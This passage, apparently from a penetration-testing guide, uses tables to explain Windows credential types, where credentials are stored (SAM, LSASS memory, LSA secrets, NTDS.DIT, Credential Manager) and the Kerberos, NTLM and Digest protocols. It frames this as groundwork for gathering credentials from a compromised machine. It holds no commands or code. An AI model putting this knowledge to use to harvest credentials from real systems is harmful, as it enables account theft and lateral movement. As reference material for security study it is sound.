|                       | guidance have discouraged their use for more than a decade. LM hashes have a number of challenges that make them less |
|                       | secure and more valuable to attackers if stolen:                                                                      |
|                       | - hashes required a password to be less than 15 characters long and contain only ASCII characters.                    |
|                       | - LM Hashes also do not differentiate between uppercase and lowercase letters.                                        |
|                       |                                                                                                                       |
|                       | Techniques to obtain the plaintext value from a LM hash with relatively low effort have been available for a number of| 
|                       | years, so the loss of a LM hash should be considered nearly equivalent to the loss of plaintext password.             |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Windows logon cached  | These verifiers are stored in the registry (HKLM\Security) on the local computer and provide validation of a domain   |
| password verifiers    | user’s credentials when the computer cannot connect to Active Directory during a user logon. These are not            |
|                       | credentials, as they cannot be presented to another computer for authentication, and they can only be used to locally |
|                       | verify a credential.                                                                                                  |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+

**Credential Storage**

Credential Storage, lists the types of credential storage locations available on the Windows operating system.


+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Credential sources    | Description                                                                                                           |
+=======================+=======================================================================================================================+
| Security Accounts     | The SAM database is stored as a file on the local disk, and is the authoritative credential store for local accounts  |
| Manager (SAM)         | on each Windows computer. This database contains all the credentials that are local to that specific computer         |
| database              | including the built-in local Administrator account and any other local accounts for that computer.                    |
|                       |                                                                                                                       |
|                       | The SAM database stores information on each account, including the username and the NT password hash. By default,     |
|                       | the SAM database does not store LM hashes on current versions of Windows. It is important to note that no password is |
|                       | ever stored in a SAM database, only the password hashes.                                                              |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Local System Security | The Local Security Authority (LSA) stores credentials in memory on behalf of users with active Windows sessions. This |
| Authority Subsystem   | allows users to seamlessly access network resources, such as file shares, Exchange mailboxes, and SharePoint sites,   |
| ( LSASS ) process     | without reentering their credentials for each remote service. LSA may store credentials in multiple forms including:  |
| memory                | - Reversibly encrypted plaintext                                                                                      |
|                       | - Kerberos tickets (TGTs, service tickets)                                                                            |
|                       | - NT hash                                                                                                             |
|                       | - LM hash                                                                                                             |
|                       |                                                                                                                       |
|                       | If the user logs on to Windows using a smartcard, LSA will not store a plaintext password, but it will store the      |
|                       | corresponding NT hash value for the account and the plaintext PIN for the smartcard.                                  |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| LSA secrets on disk   | A Local Security Authority (LSA) secret is a secret piece of data that is accessible only to SYSTEM account processes.|
|                       | Some of these secrets are credentials that must persist after reboot and are stored in encrypted form on disk.        |
|                       | Credentials stored as LSA secrets on disk may include:                                                                |
|                       | - Account password for the computer’s Active Directory account.                                                       |                
|                       | - Account passwords for Windows services configured on the computer.                                                  |
|                       | - Account passwords for configured scheduled tasks.                                                                   |
|                       | - Account passwords for IIS application pools and websites.                                                           |
|                       | - An attack tool running as an account with administrative privileges on the computer can exploit those privileges to |
|                       |   extract these LSA secrets.                                                                                          |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Domain Active         | The Active Directory database is the authoritative store of credentials for all user and computer accounts in an      |
| Directory Database    | Active Directory domain. Each writable domain controller in the domain contains a full copy of the domain’s Active    |
| ( NTDS.DIT )          | Directory database, including account credentials for all accounts in the domain. Read-only domain controllers (RODCs)|
|                       | house a partial local replica with credentials for a selected subset of the accounts in the domain. By default, RODCs |
|                       | do not have a copy of privileged domain accounts.                                                                     |
|                       |                                                                                                                       |
|                       | The Active Directory database stores a number of attributes for each account, including both username types and the   |
|                       | following:                                                                                                            |
|                       | - NT hash for current password.                                                                                       |
|                       | - NT hashes for password history (if configured).                                                                     |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+
| Credential Manager    | Users may choose to save passwords in Windows using an application or through the Credential Manager Control Panel    |
| (CredMan) store       | applet. These credentials are stored on disk and protected using the Data Protection Application Programming Interface|
|                       | (DPAPI), which encrypts them with a key derived from the user’s password. Any program running as that user will be    |
|                       | able to access credentials in this store.                                                                             |
+-----------------------+-----------------------------------------------------------------------------------------------------------------------+

Before we dig down in gathering credentials from a compromised machine, we should understand about Windows authentication protocols

**Windows authentication protocols**

The following table provides information on Windows authentication protocols and a brief description of each supported protocol.

+-----------+-----------------------------------------------------------------------------------------------------------------------------+
| Protocol  | Description                                                                                                                 |
+===========+=============================================================================================================================+
| Kerboros  | Kerberos is the default and preferred authentication protocol for domain authentication on current Windows operating        |
|           | systems. Kerberos relies on a system of keys, tickets, and mutual authentication in which keys are normally not passed      |
|           | across the network. (Direct use of the key is permitted for some application clients under certain circumstances).          |
|           | Certain Kerberos-specific objects that are used in the authentication process are stored as LSA secrets in memory,          |
|           | such as Ticket Granting Tickets (TGT) and Service Tickets (ST). TGTs are Single sign-on (SSO) authentication credentials    |
|           | that can be reused for lateral movement or privilege escalation, while STs are not credentials that can be used for lateral |
|           | movement or privilege escalation.                                                                                           |
+-----------+-----------------------------------------------------------------------------------------------------------------------------+
| NTLM      | NTLM protocols are authentication protocols that use a challenge and response method to make clients mathematically prove   |
|           | that they have possession of the NT hash. Current and past versions of Windows support multiple versions of this protocol,  |
|           | including NTLMv2, NTLM, and the LM authentication protocol.                                                                 |
+-----------+-----------------------------------------------------------------------------------------------------------------------------+
| Digest    | Digest is a standards-based protocol typically used for HTTP and Lightweight Directory Access Protocol (LDAP) authentication|
|           | Digest authentication is described in RFCs 2617 and 2831. 								  |
+-----------+-----------------------------------------------------------------------------------------------------------------------------+


